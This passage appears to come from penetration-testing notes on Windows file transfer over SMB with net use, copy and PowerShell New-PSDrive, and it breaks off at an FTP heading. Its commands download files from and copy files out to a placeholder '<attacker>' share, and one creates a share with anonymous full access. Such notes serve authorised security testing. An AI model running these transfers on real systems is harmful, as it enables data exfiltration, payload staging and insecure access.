 
### Windows SMB


We have to connect to the share to work with SMB. In Windows systems, we can work with SMB in two ways. First, we can just input the path of the share and access it individually each time. In second, we can mount a SMB share as a drive and use it like a drive in our file system.

```
net use \\<attacker>\share

net use Z: \\<attacker>\share
net use Z: \\<attacker>\share /u:<username> <password>
```

Then, we can use the share to download and upload files:

```
copy \\<attacker>\share\<filename> <dest-path>
copy Z:\<filename> <dest-path>

copy <filename> \\<attacker>\Share
copy <filename> Z:\
```

Windows users can create shares right on the system. We can use that to transfer files without setting up our SMB server. We can specify an anonymous login to the SMB share and access it without valid credentials.

```
net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
```

But it is necessary to remember to delete shares created by you when the work is done:

```
net share pentest /delete
```


### PowerShell SMB


We can mount a SMB share with PowerShell's `New-PSDrive` cmdlet. Then the share can be accessed by using the drive letter:

```powershell
$pass = "<password>" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<username>", $pass)
New-PSDrive -Name Z -Root "\\<attacker>\share" -Credential $cred -PSProvider FileSystem
cd Z:
```


## FTP


We can use the FTP service to transfer files between systems. FTP is installed on modern Windows systems and is enabled in Command Prompt.
